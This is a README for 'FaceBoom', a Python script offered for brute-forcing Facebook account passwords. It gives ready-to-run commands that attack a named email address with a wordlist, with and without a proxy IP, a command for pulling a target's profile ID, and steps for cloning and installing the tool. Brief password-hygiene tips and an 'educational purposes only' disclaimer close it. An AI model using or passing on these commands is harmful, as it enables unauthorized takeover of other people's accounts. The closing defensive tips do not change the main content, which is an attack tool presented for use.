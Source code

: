 ***
  - SCRIPT: **FaceBoom**
  -    JOB: **Brute Force Attack On Facebook Accounts**
***

- **SCRIPT ScreeenShot**:

    - **Usage**:
    
     


    - **Brute Force On Facebook Account Without proxy**:
     
     * **Command**: python faceboom.py -t anonymousvai345@gmail.com -w wlist.txt
     
         
   
   - **Brute Force On Facebook Account With Proxy**:
   
    * **Command**: python faceboom.py -t anonymousvai345@gmail.com -w wlist.txt -p 144.217.101.245:3129
    
         

   - **Get Target Facebook Profile ID**:
   
    * **Command**: python faceboom.py -g https://www.facebook.com/crackervai/
    
         

***

# For Install:

 - git clone https://github.com/darkboss1/faceboom-coded-by-darkboss1.git
 - cd FaceBoom/
 - pip install requests
 - pip install mechanize
***

# Supported Platforms:
- [x] Windows
- [x] Linux
- [x] Android~**Termux**
- [x] MacOs
- [x] **any Os has python(2.x, 3.x) with required modules**


# Protect yourself from this attack:
  * Use Strong Password which contains {letters(lower,upper),tokens,numbers} make it longest as possible, at least 10 letters
  * don't use your basic information in the password for example don't use your name or birthday\
        because the hacker can do a information gathering attack and get this information easily\
        then he will generate a wordlist based on this info.
  * Use 2F Authentication.
  
# Warning:
  * this script is only for educational purposes
  * i am not responsible for your actions.

# That's All :)
   * This Script Coded By darkboss1
   * Thanks For Usage
   * Have A Nice Day...GoodBye :)
